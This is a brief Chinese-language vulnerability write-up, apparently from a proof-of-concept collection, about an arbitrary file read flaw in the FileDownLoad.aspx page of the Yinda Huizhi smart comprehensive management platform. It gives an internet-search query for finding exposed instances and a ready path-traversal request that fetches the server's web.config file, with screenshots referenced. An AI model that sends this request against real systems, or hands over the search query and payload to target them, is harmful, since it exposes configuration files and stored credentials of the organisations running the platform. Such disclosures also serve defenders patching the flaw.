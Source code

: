 # 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

# 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

```
银达汇智 智慧综合管理平台
```

## 网络测绘

```
"汇智信息" && title="智慧综合管理平台登入"
```

## 漏洞复现

登陆页面

![image-20220525150952244](/images/202205251509315.png)

验证POC

```
/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![image-20220525151256759](/images/202205251512861.png)

